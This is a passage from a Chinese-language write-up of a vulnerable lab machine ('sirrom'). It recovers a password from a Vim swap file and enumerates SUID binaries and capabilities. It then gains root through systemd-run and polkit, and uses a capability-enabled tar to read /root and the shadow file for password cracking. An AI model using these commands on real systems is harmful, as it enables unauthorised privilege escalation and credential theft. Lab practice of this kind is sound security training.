312922 -rw-r--r-- 1 www-data www-data   99 Oct 11  2019 secretfile
312917 -rw------- 1 www-data www-data  12K Oct 11  2019 .secretfile.swp
```

通过 `wget` 将两个文件下载下来。



**SWP 文件** 是一种临时缓存文件，主要用于在编辑器（如 Vim）中紧急保护未保存的工作内容。当系统或编辑器发生崩溃、意外退出时，可以通过 SWP 文件恢复未保存的数据，避免数据丢失。

```bash
vim -r .secretfile.swp
```



恢复后保存退出（`:w` → `:q!`），得到其中记录的密码。

---

## 3.2 切换至 morris 用户

通过前面从 FTP 和 `.secretfile.swp` 中提取到的密码 `blehguessme090`，尝试切换到机器上的两个用户，root 不成功，切换到 morris 成功。

```bash
morris@sirrom:~$
```

### SUID 文件（morris 用户）

```bash
morris@sirrom:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/sbin/mount.nfs
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/mount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/ntfs-3g
/usr/bin/chsh
/usr/bin/sudo
```

### 可写文件（morris 用户）

```bash
morris@sirrom:~$ find / -writable -type f ! -path '/proc/*' 2>/dev/null
/home/morris/.bashrc
/home/morris/.bash_history
/home/morris/.profile
/home/morris/.ssh/id_rsa
/home/morris/.ssh/id_rsa.pub
# ... （其余为 .config/.cache/.local 下的用户数据文件）
```

---

## 3.3 提权利用

注意到 SUID 列表中有 `polkit`，尝试 policykit 相关提权路线。

```bash
norris@sirrom:~/etc$ systemd-run -t /bin/bash
```

利用 `pkexec` 的 SUID 权限结合 `systemd-run` 完成提权，可进一步了解 policykit 相关利用方式。



---

# 4. 总结

上个打过的靶机有这么多图片，一个个看隐写，结果发现不是隐写方向，到这台靶机，隐写又起了作用，看来不能掉以轻心啊。

---
# 5. 补充

## 5.1 Linux Capabilities

在信息收集时可以使用 getcap 去查看当前系统上所有具有 Linux Capabilities 的可执行文件

```bash
norris@sirrom:~$ /sbin/getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
```

从输出的命令上可以看出 `/usr/bin/tar = cap_dac_read_search+ep` 就拥有读取系统所有文件的权限，那就可以直接看 root.txt 和 shadow 文件进行爆破

```bash
/sbin/getcap -r / 2>/dev/null

tar -zcvf root.tar.gz /root
tar -zxvf root.tar.gz
cd root
cat root.txt
```

---
## 5.2 polkit 提权详解

 `systemd-run` 如何调用 polkit，最终把权限给 bash

#### 整体流程

```text
norris 执行 systemd-run
    → systemd (root) 收到请求
    → 向 polkit 询问：norris 有没有资格管理 units？
    → polkit 认证通过
    → systemd 以 root 身份 fork 出 /bin/bash
    → 把 TTY 接回给 norris
```

##### 第一步：谁在真正运行服务？

`systemd` 本身以 **root** 运行（PID 1）。`systemd-run` 本质是通过 **D-Bus** 向 systemd 发送一条消息："帮我起一个临时 unit，运行 `/bin/bash`"。

注意：**`systemd-run` 自己没有 SUID**，它只是一个普通的客户端工具，发消息给 systemd daemon。

##### 第二步：polkit 在哪里介入？

systemd 收到这个 D-Bus 请求后，不能直接执行——因为请求方是普通用户 norris。systemd 会去问 polkit：

> "norris 有没有权限执行 `org.freedesktop.systemd1.manage-units` 这个操作？"

polkit 弹出密码框，norris 输入**自己的密码**验证身份，polkit 回答"允许"。

##### 第三步：权限怎么给到 bash？

polkit 认证通过后，**systemd（root进程）直接 fork + exec `/bin/bash`**。这个 bash 是 root 的子进程，默认继承 root 权限。

`-t` 参数的作用：把这个 bash 的 stdin/stdout/stderr 接回到你的终端，你就能交互操作它。

---
# 6. 参考链接


https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/